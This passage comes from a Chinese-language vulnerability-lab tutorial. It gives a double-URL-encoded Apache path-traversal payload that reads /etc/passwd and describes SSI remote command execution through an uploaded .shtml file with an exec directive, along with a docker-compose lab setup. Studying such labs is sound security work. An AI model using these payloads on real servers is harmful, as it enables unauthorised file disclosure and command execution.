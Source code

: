 #### 1.5.3.2.**读取任意文件**

在GET处插入POC，用来读取任意文件，但是需要注意/icons必须是一个存在且可访问的目录。

```
POC：/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

![img](assets/wps19.jpg) 

## 1.6.**Apache SSI 远程命令执行漏洞**

### 1.6.1.**漏洞介绍**

在测试任意文件上传漏洞的时候，目标服务端可能不允许上传php后缀的文件。如果目标服务器开启了SSI与CGI支持，我们可以上传一个shtml文件，并利用`<!--#exec cmd="id" -->`语法执行任意命令。

### 1.6.2.**漏洞环境**

#### 1.6.2.1.**运行漏洞环境**

```
docker-compose up -d
```

![img](assets/wps20.jpg) 

